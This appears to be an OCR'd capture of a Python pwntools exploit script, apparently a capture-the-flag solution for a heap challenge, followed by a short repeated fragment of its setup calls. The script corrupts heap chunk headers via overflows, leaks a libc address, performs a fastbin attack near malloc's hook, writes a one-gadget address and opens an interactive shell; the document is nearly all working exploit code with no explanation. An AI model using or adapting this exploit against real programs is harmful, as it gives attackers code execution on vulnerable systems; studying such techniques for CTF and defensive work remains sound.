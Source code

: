 ```python
alloc(0x80)
 
free(1)
free(2)
 
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)
 
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
 
alloc(0x10)
alloc(0x10)
 
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)
 
libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00"))-0x3c4b78
log.info("libc_base: "+hex(libc_base))
 
alloc(0x60)
free(4)
 
payload = p64(libc_base+0x3c4aed)
fill(2, payload)
 
alloc(0x60)
alloc(0x60)
 
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4526a)
fill(6, payload)
 
alloc(255)
 
p.interactive()
```

```python
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)
 
free(1)
free(2)
```
